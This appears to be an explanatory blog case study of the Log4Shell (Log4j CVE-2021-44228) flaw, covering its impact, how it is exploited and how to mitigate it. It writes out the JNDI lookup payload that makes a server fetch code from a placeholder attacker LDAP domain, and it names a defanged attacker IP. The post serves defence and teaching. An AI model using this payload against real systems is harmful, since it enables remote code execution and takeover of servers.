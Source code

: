 ```yaml
---
layout: post
title: Vulnerability - Log4j
tags: [case-study]
---
```

CVE-2021-44228 - [NIST on National Vulnerability Database (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Seriousness of a vulnerability is viewed with two factors: 
1. the sheer number of systems that are vulnerable, and 
2. the ease with which an attacker can compromise a network

The vulnerability is associated with the user activity logger known as Log4J - a logging library freely distributed by the Apache Software Foundation. A security researcher working for Alibaba, Chen Zhaojun, first discovered the vulnerability and reported it to Apache on November 24, 2021 and since Dec 2021, Log4j was considered as a serious threat to come down the pipe in recent years. 

## What is Log4j and how impactful is the vulnerablity?
Log4j is a very popular Java library that has been around since 2001 and is used by countless pieces of software to log activity and error messages. Log4j will log messages in software and scan them for errors. The logging capabilities allow it to communicate with other internal functions on systems, such as directory services. This creates the opening for the vulnerability where remote code executions (RCE) allow an attacker to execute arbitrary code on a remote device.

Java is implemented across a wide spread range of digital products including cloud solutions, web servers, and apps making each of these products vulnerable to exploitation through the Log4Shell vulnerability. Hence, any Java software running systems can be impacted which is *a lot* of systems.

Because this security flaw is so widespread and most organizations are unaware that they're impacted, an exploitation frenzy is currently underway in the cybercriminal world. Security researchers have identified approximately **10 million Log4Shell exploitations attempts every hour**. Retail Industry is the most hard hit, followed by technology, financial services, manufacturing services and healthcare providers.

The [vulnerability CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been given the Critical rating and the highest threat score possible (10.0) by the Common Vulnerability Scoring System (CVSS), the industry standard for at-a-glance assessments of the severity of security vulnerabilities.

## How it's exploited
Lightweight Directory Acess Protocol (LDAP) is a open-source application protocol that allows apps to access and authenticate specific user info across directory services. Employees need to regularly access usernames, passwords, email addresses, endpoints, and printers to fulfill their daily tasks. Such information is stored on company directories and LDAP is the protocol that efficiently connects users and applications to this information.

LDAP maps usernames to passwords, the protocol to authenticate users. Thus allows single sign-on (SSO), where users need to sign in only once to access all protected files and applications.

The vulnerable Log4j library, when passed a specially crafted string, will call out to an LDAP server, download the code hosted in the LDAP directory, and then execute that code. 

The vulnerability occurs due to a lack of sanitization in the lookup method used in the log4j library. An attacker can leverage JNDI (Java Naming and Directory Interface) to perform a request to a remote malicious resource as follows: 
`==${jndi:ldap://[attacker_domain]/file}==`

Using different protocols such as ldap, rmi and commands like upper/ lower, an attacker can create multiple attack string combinations. In addition, many obfuscation techniques are observed to avoid detection:

![](../../../assets/images/log4j/exploit_variants.png)

This allows cybercriminals to create a malicious LDAP server that stores code designed to take-over any server where it is executed, and then send applications/databases/APIs the string that points to their code.

The primary attack is to feed messages to Log4j that instruct the system to download malicious powershell script (018h4xuvxe) and execute malware from a remote server, which then grants the attacker greater access to the victim’s system.

![](../../../assets/images/log4j/Log4j.png)

The IP 2.56.59[.]123 that contains the link for payload by HTTP request downloads the paylaod and executes the powershell script. Malware script can be written with persistence functionalities to maintain access even if the system restarts. 

## Safety Measures
1. Quickest way to mitigate is to update all instances of Log4j to the latest version - Log4j 2.17.x and latest version available
2. Utilise custom built Log4j Vulnerability scanners made by numerous popular and trusted security vendors from the Open Source - like CISA, Huntress, Arctic Wolf, CrowdStrike, Amazon Inspector & AWS, etc.,
3. Disable JNDI - A design flaw in the JNDI Lookup plugin is primarily to blame for this critical vulnerability. JNDI facilitates code execution based on data found in the log, data that can easily be manipulated since its accepted by the logger without sanitation.
4. Update all firewall and IPS and use NGFW
5. Implement MFA